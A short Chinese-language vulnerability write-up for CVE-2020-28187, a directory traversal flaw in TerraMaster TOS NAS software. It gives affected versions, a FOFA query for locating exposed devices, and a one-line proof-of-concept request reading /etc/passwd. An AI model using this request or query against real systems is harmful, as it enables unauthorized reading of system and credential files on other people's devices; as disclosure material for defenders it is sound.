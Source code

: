 # TerraMaster TOS 后台任意文件读取漏洞 CVE-2020-28187

## 漏洞描述

TerraMaster TOS <= 4.2.06中的多个目录遍历漏洞允许远程身份验证的攻击者通过/tos/index.php?editor/fileGet路径下的filename参数、 /include/ajax/logtable.php路径下的Event参数和/include/core/index.php路径下的opt参数，读取文件系统中的任何文件。

## 漏洞影响

```
TerraMaster TOS < 4.2.06
```

## FOFA

```
"TerraMaster" && header="TOS"
```

## 漏洞复现

登陆后访问，验证漏洞的POC为



```plain
/tos/index.php?editor/fileGet&filename=../../../../../../etc/passwd
```



![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202101948100.png)